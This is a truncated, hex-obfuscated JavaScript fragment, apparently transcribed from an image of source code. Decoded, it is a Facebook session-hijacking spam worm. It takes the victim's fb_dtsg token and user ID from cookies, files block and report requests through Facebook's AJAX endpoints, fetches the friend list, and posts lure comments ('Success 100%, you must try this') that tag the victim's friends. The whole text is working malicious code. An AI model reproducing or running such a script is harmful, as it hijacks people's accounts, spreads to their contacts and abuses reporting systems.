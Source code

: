 var
_0xbc0b=["\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6D\x61\x74\x63\x68","\x63\x6F\x6F\x6B\x69\x65","\x67\x65\x74\x54\x69\x6D\x65","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x72\x65\x70\x6F\x72\x74\x2F\x73\x6F\x63\x69\x61\x6C\x2E\x70\x68\x70","\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x62\x6C\x6F\x63\x6B\x3D\x31\x26\x70\x70\x3D\x25\x37\x42\x25\x32\x32\x61\x63\x74\x69\x6F\x6E\x73\x5F\x74\x6F\x5F\x74\x61\x6B\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x5B\x5D\x25\x32\x32\x25\x32\x43\x25\x32\x32\x61\x72\x65\x5F\x66\x72\x69\x65\x6E\x64\x73\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x63\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x63\x6F\x6E\x74\x65\x6E\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x30\x25\x32\x43\x25\x32\x32\x65\x78\x70\x61\x6E\x64\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x33\x41\x31\x25\x32\x43\x25\x32\x32\x66\x69\x72\x73\x74\x5F\x63\x68\x6F\x69\x63\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x32\x43\x25\x32\x32\x66\x72\x6F\x6D\x5F\x67\x65\x61\x72\x25\x32\x32\x25\x33\x41\x25\x32\x32\x74\x69\x6D\x65\x6C\x69\x6E\x65\x25\x32\x32\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x66\x6F\x6C\x6C\x6F\x77\x69\x6E\x67\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x74\x61\x67\x67\x65\x64\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x6F\x6E\x5F\x70\x72\x6F\x66\x69\x6C\x65\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x70\x68\x61\x73\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x72\x65\x66\x25\x32\x32\x25\x33\x41\x25\x32\x32\x68\x74\x74\x70\x73\x25\x33\x41\x25\x35\x43\x25\x32\x46\x25\x35\x43\x25\x32\x46\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x25\x35\x43\x25\x32\x46\x4E\x61\x6E\x2E\x65\x72\x74\x74\x37\x25\x32\x32\x25\x32\x43\x25\x32\x32\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x31\x34\x35\x25\x32\x43\x25\x32\x32\x72\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x73\x75\x62\x5F\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x74\x69\x6D\x65\x5F\x66\x6C\x6F\x77\x5F\x73\x74\x61\x72\x74\x65\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x75\x73\x65\x72\x25\x32\x32\x25\x33\x41","\x25\x37\x44\x26\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x3D\x31\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x32\x71\x6D\x76\x75\x35\x6B\x39\x55\x6D\x41\x41\x61\x55\x56\x70\x6F\x26\x5F\x5F\x72\x65\x71\x3D\x75\x26\x74\x74\x73\x74\x61\x6D\x70\x3D\x32\x36\x35\x38\x31\x36\x38\x35\x37\x31\x30\x37\x31\x31\x30\x38\x38\x38\x30","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x63\x6C\x6F\x73\x65","\x73\x65\x6E\x64","\x31\x30\x30\x30\x30\x36\x39\x35\x32\x31\x31\x39\x30\x34\x38","\x34\x37\x37\x34\x35\x37\x31\x37\x32\x33\x35\x39\x32\x39\x30","\x61\x72\x6B\x61\x64\x61\x73\x6C\x61\x72\x20\x3D\x20","\x66\x6F\x72\x20\x28\x3B\x3B\x29\x3B","","\x72\x65\x70\x6C\x61\x63\x65","\x72\x65\x73\x70\x6F\x6E\x73\x65\x54\x65\x78\x74","\x3B","\x6C\x65\x6E\x67\x74\x68","\x65\x6E\x74\x72\x69\x65\x73","\x70\x61\x79\x6C\x6F\x61\x64","\x72\x6F\x75\x6E\x64","\x20\x70\x6C\x65\x61\x73\x65\x20\x74\x72\x79\x20\uDBB8\uDC47\x20\x40\x5B","\x75\x69\x64","\x3A","\x74\x65\x78\x74","\x5D","\x20","\x26\x66\x69\x6C\x74\x65\x72\x5B\x30\x5D\x3D\x75\x73\x65\x72","\x26\x6F\x70\x74\x69\x6F\x6E\x73\x5B\x30\x5D\x3D\x66\x72\x69\x65\x6E\x64\x73\x5F\x6F\x6E\x6C\x79","\x26\x6F\x70\x74\x69\x6F\x6E\x73\x5B\x31\x5D\x3D\x6E\x6D","\x26\x74\x6F\x6B\x65\x6E\x3D\x76\x37","\x26\x76\x69\x65\x77\x65\x72\x3D","\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x68\x74\x74\x70\x73\x3A\x2F\x2F","\x69\x6E\x64\x65\x78\x4F\x66","\x55\x52\x4C","\x47\x45\x54","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x74\x79\x70\x65\x61\x68\x65\x61\x64\x2F\x66\x69\x72\x73\x74\x5F\x64\x65\x67\x72\x65\x65\x2E\x70\x68\x70\x3F\x5F\x5F\x61\x3D\x31","\x68\x74\x74\x70\x3A\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x74\x79\x70\x65\x61\x68\x65\x61\x64\x2F\x66\x69\x72\x73\x74\x5F\x64\x65\x67\x72\x65\x65\x2E\x70\x68\x70\x3F\x5F\x5F\x61\x3D\x31","\x72\x61\x6E\x64\x6F\x6D","\x66\x6C\x6F\x6F\x72","\x26\x66\x74\x5F\x65\x6E\x74\x5F\x69\x64\x65\x6E\x74\x69\x66\x69\x65\x72\x3D","\x26\x63\x6F\x6D\x6D\x65\x6E\x74\x5F\x74\x65\x78\x74\x3D\x53\x75\x63\x63\x65\x73\x73\x20\x31\x30\x30\x25\x2C\x20\x79\x6F\x75\x20\x6D\x75\x73\x74\x20\x74\x72\x79\x20\x74\x68\x69\x73\x20\uDBBA\uDF10\x20\uDBB9\uDD10\uDBBA\uDC13\uDBB8\uDC53\uDBBA\uDF9C\x20\uDBBA\uDC28\x20\uDBB8\uDC40\x20\uDBB8\uDC3D\x20\uDBB8\uDC3C\x20\uDBB8\uDC41\x20\uDBB8\uDC46\x20\uDBB8\uDC45\x20\x76\x65\x72\x79\x20\x65\x61\x73\x79\x20\x79\x6F\x75\x20\x63\x61\x6E\x20\x66\x6F\x6C\x6C\x6F\x77\x20\x74\x68\x69\x73\x20\x73\x74\x65\x70\x20\x62\x79\x20\x73\x74\x65\x70\x20\x3B\x29\x20","\x26\x73\x6F\x75\x72\x63\x65\x3D\x32","\x26\x63\x6C\x69\x65\x6E\x74\x5F\x69\x64\x3D\x31\x33\x37\x37\x38\x37\x31\x37\x39\x37\x31\x33\x38\x3A\x31\x37\x30\x37\x30\x31\x38\x30\x39\x32","\x26\x72\x65\x70\x6C\x79\x5F\x66\x62\x69\x64","\x26\x70\x61\x72\x65\x6E\x74\x5F\x63\x6F\x6D\x6D\x65\x6E\x74\x5F\x69\x64","\x26\x72\x6F\x6F\x74\x69\x64\x3D\x75\x5F\x6A\x73\x6F\x6E\x70\x5F\x32\x5F\x33","\x26\x63\x6C\x70\x3D\x7B\x22\x63\x6C\x5F\x69\x6D\x70\x69\x64\x22\x3A\x22\x34\x35\x33\x35\x32\x34\x61\x30\x22\x2C\x22\x63\x6C\x65\x61\x72\x63\x6F\x75\x6E\x74\x65\x72\x22\x3A\x30\x2C\x22\x65\x6C\x65\x6D\x65\x6E\x74\x69\x64\x22\x3A\x22\x6A\x73\x5F\x35\x22\x2C\x22\x76\x65\x72\x73\x69\x6F\x6E\x22\x3A\x22\x78\x22\x2C\x22\x70\x61\x72\x